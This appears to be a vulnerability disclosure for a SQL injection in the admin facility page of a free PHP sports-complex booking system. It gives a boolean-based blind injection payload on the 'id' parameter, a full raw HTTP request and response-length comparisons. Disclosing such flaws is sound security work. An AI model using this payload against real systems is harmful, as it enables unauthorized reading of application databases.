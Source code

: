 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File:  /scbs/admin/?page=facilities/manage_facility&id=

Vulnerability location:  /scbs/admin/?page=facilities/manage_facility&id=, id

Current database name: scbs_db,length is 7

[+] Payload: /scbs/admin/?page=facilities/manage_facility&id=3%27%20and%20length(database())%20=7--+

```sql
GET /scbs/admin/?page=facilities/manage_facility&id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=gp584rjk4ugbjakmto03cu7pco
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 25373
![image](https://user-images.githubusercontent.com/54017627/165217195-f00eb048-50a5-4b66-8c51-e8d11607a8fc.png)

![image](https://user-images.githubusercontent.com/54017627/165217156-6b1dc30f-74e6-40ce-9c0e-eb96da79aac7.png)


When length (database ()) = 7, Content-Length: 28378
![image](https://user-images.githubusercontent.com/54017627/165217229-702cc81a-2aa1-4914-8376-7ad060cd3f59.png)

![image](https://user-images.githubusercontent.com/54017627/165217110-e4a304d4-2caa-4ae3-ae59-4de21eb64c71.png)

